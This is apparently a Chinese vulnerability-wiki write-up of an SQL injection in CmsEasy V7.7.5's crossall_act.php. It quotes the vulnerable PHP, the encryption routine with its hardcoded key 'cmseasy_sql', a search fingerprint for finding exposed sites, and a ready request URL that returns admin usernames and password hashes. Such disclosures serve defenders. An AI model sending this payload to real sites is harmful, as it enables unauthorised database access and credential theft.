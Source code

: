 # CmsEasy crossall_act.php SQL注入漏洞

## 漏洞描述

CmsEasy 存在SQL注入漏洞，通过文件 service.php 加密SQL语句执行即可执行任意SQL命令

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba.png)

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a.png)

存在漏洞的文件为 l**ib/default/crossall_act.php**

![img](../../../.vuepress/public/img/1632722883793-c37ad1c9-a41a-4517-b82d-db490c7745c2.png)

其中需要注意的代码为

```php
function execsql_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->rec_query_one($sqlquery);
        echo json_encode($returndata);
        exit;
    }
    function execsqls_action(){
            $sqlquery=front::get("sql");
            $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

            $returndata=tdatabase::getInstance()->rec_query($sqlquery);
            echo json_encode($returndata);
            exit;
        }
    function execupdate_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->query($sqlquery);
        echo json_encode($returndata);
        exit;
    }
```

代码中传入参数 sql， 然后使用方法 unlockString 解码执行 SQL语句

查看文件 **lib/table/service.php**

```php
public static function lockString($txt,$key='cmseasy_sql')
    {
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $nh = rand(0,64);
        $ch = $chars[$nh];
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = base64_encode($txt);
        $tmp = '';
        $i=0;$j=0;$k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
            $tmp .= $chars[$j];
        }
        return urlencode($ch.$tmp);
    }

    /**对字符串进行解密。 crossall_act文件使用
     * @param $txt
     * @param string $key
     * @return bool|string
     */
    public static function unlockString($txt,$key='cmseasy_sql')
    {
        $txt = urldecode($txt);
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $ch = $txt[0];
        $nh = strpos($chars,$ch);
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = substr($txt,1);
        $tmp = '';
        $i=0;$j=0; $k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = strpos($chars,$txt[$i])-$nh - ord($mdKey[$k++]);
            while ($j<0) $j+=64;
            $tmp .= $chars[$j];
        }
        return base64_decode($tmp);
    }
```

文件中得到了 **$key='cmseasy_sql'** 和加解密方法，构造请求获取账号密码md5

![img](../../../.vuepress/public/img/1632723167407-5949ee21-ee19-48d0-ba5b-2561018e317c.png)

```php
/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5
```

![img](../../../.vuepress/public/img/1632723217513-d1daad2d-635e-432f-b3c0-1f23e069fdcc.png)